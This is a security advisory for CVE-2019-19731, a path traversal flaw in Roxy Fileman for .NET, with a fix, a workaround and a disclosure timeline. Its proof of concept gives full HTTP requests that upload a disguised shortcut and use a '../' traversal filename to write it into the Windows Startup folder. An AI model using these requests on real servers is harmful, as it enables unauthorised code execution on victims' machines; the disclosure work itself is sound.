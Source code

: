 # CVE-2019-19731: Directory traversal in Roxy Fileman for .NET

Roxy Fileman 1.4.5 for .NET is vulnerable to path traversal which can lead to file write in arbitrary locations depending on 
the IIS worker process privileges [1]. This PoC demonstrates a crafted Windows shortcut file being uploaded and written to the Startup folder. The execution
of this file will be triggered on the next login.

Tested on ASP.NET 4.0.30319 and Microsoft-IIS 10.0, Windows 10 Pro Build 17134, using custom account as application pool identity for the IIS worker process.

## Proof of concept

It's possible to write an uploaded file to arbitrary locations using the `RENAMEFILE` action.
The `RenameFile` function in `main.ashx` does not check if the new file name parameter `name` is a valid location.
Moreover, the default conf.json has an incomplete blacklist for file extensions which in this case
allows Windows shortcut files to be uploaded, alternatively existing files can be renamed to include 
the `.lnk` extension.

1. Creating a shortcut file

By using for example the target executable `C:\Windows\System32\Calc.exe` and
removing the `.lnk` extension and renaming it to use the `.dat` extension.

2. Uploading the file

Either upload the `.dat` file manually via the Roxy Fileman web interface
or programmatically using a HTTP POST request. 

Details of the request:

```
POST /wwwroot/fileman/asp_net/main.ashx?a=UPLOAD HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------159382831523528
Content-Length: 924
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

-----------------------------159382831523528
Content-Disposition: form-data; name="action"

upload
-----------------------------159382831523528
Content-Disposition: form-data; name="method"

ajax
-----------------------------159382831523528
Content-Disposition: form-data; name="d"

/wwwroot/fileman/Uploads/test2
-----------------------------159382831523528
Content-Disposition: form-data; name="files[]"; filename="poc.dat"
Content-Type: application/octet-stream

...data omitted...
-----------------------------159382831523528--
```

3. Write the file to the Startup folder using the `RENAMEFILE` action

The new filename is set via the `n` parameter. The correct path can be identified by trial and error depending 
on the location of `wwwroot` on the filesystem and the privileges for the IIS worker process (`w3wp.exe`).

If the necessary directories do not exist, they can be created using the `CREATEDIR` action which is also
vulnerable to path traversal.

```
POST /wwwroot/fileman/asp_net/main.ashx?a=RENAMEFILE&f=%2Fwwwroot%2Ffileman%2FUploads%2FDocuments%2Fpoc.dat&n=../../../../../../../../AppData/Roaming/Microsoft/Windows/Start%20Menu/Programs/Startup/poc.txt.lnk HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 66
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

f=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2%2Fpoc.dat&n=poc.dat
```

## Workaround / Fix
Patch the `main.ashx` code in order to perform checks for all paths that they are valid for the following actions: 
`CREATEDIR`, `COPYFILE` and `RENAMEFILE`.

Recommendations for users of Roxy Fileman:
  - Add `lnk` file extension to the `conf.json` under `FORBIDDEN_UPLOADS`, and `aspx` since it is not included in the blacklist by default.


## Timeline
- 2019-12-06: Discovered the vulnerability
- 2019-12-06: Reported to the vendor (vendor is unresponsive)
- 2019-12-11: Request CVE
- 2019-12-13: Advisory published

## References
[1] CVE-2019-19731 - https://nvd.nist.gov/vuln/detail/CVE-2019-19731

